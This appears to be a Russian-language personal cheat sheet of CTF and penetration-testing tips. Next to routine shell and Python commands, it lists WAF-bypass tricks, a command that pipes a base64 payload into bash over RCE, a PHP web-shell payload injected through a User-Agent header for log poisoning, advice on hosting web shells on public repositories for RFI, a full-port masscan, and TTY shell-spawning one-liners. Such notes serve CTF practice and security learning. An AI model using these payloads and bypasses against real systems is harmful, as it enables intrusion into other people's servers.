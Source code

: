 # $ useful

strings <binfile> — отличная команда чтобы попытаться вытащить из бинарки что-то похожее на строки

[localtest.me](http://localtest.me) — альтернативная интерпретация localhost, доступная из интернета

Если WAF блокирует cat, можно использовать альтернативную команду more

[Cyberchef](https://gchq.github.io/CyberChef/) - многофункциональный швейцарский нож

Команда для поиска файлов по имени

```bash
find / -type f -iname '*flag*'
```

Команда для поиска содержимого:

```php
grep -rli "cdb{" /path/to/search
```

Не забывай про вайлдкарды при работе с путями: ‘var/www/html/’ для шелла то же самое что ‘var/w??/h???’. Они могут помочь обойти WAF

Улучшить revshell:

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

ВСЕГДА используй базу-песочницу при составлении SQL инъекций

Burp Suite Pro запускается так:

```bash
java -jar burploader.jar
```

Для включения скроллинга TMUX (чтобы копировать с консоли выключи) — Ctrl + B + : set mouse on/off

Арендовать белый IP можно на [timeweb.cloud](http://timeweb.cloud)

Всегда проверяй директории на скрытые файлы:

```bash
ls -a
```

Если питон при установке зависимостей ругается на “externally managed requirement”, делай [так](https://builtin.com/articles/error-externally-managed-environment):

```bash
python3 -m venv ~/py_envs
source ~/py_envs/bin/activate
python3 -m pip install xyz
```

Листинг директории можно производить с помощью:

1. ls -lar
2. dir -lar
3. echo *

Проверить где находится бинарный файл:

```bash
which dir
```

Для передачи пейлоадов через RCE (аккуратно со спецсимволами типа +, они могут быть прочитаны и выполнены, например как пробел в этом случае):

```bash
echo <base64_payload> -n | base64 -d | bash
```

Прочитать содержимое файла нативным синтаксисом bash:

```php
echo "$(< filename.txt)"
```

Отправить запрос в Burp Suite Repeater: `Ctrl + Space`

Если есть RCE, но WAF фильтрует популярные простые команды типа id, стоит попробовать:

1. uname
2. whoami
3. env
4. ps aux
5. 5. netstat
6. echo

### Log Poisoning – мощный способ получить шелл из LFI.

Пример атаки: 

1. через LFI читаем файл логов того вебсервера, на котором работает приложение (чаще всего nginx / apache) 
2. ищем подконтрольный нам инпут, которой пишется в лог файл (например, User Agent) 
3. подставляем вредоносный код в подконтрольный инпут (например так – User-Agent: Mozilla<?php system($_GET[‘cmd’]); ?>
4. эксплуатируем (в нашем случае – передаем параметр cmd в LFI запросе к файлу лога и получаем вывод команды в файле лога)

### Public code publishers RFI

> Если приложение уязвимо к RFI, вместо персонального хостинга можно воспользоваться публичным репозиторием и передать URL к RAW файлу шелла ([https://github.com/Bearsec/web_shells](https://github.com/Bearsec/web_shells), передать RAW ссылку на wso.php, NOTE: wso легко детектится и является шумным шеллом, всегда лучше использовать минимальную нагрузку и разворачивать реверс шелл).
> 

### Список сервисов для размещения кода / шеллов

[GitHub - lorien/awesome-pastebins: List of pastebin services](https://github.com/lorien/awesome-pastebins)

### PHPFilterChain – мощный скрипт для эскалации через php фильтры

[GitHub - synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

Супермощный сканер портов (может проверить все порты хоста за минуты)

```bash
masscan -p1-65535,U1:65535 <target_ip> --rate=1000 -e <interface>
```

### **Spawning a TTY Shell**

- python -c 'import pty; pty.spawn("/bin/sh")'
- echo os.system('/bin/bash')
- /bin/sh -i
- perl —e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')
- exec "/bin/sh"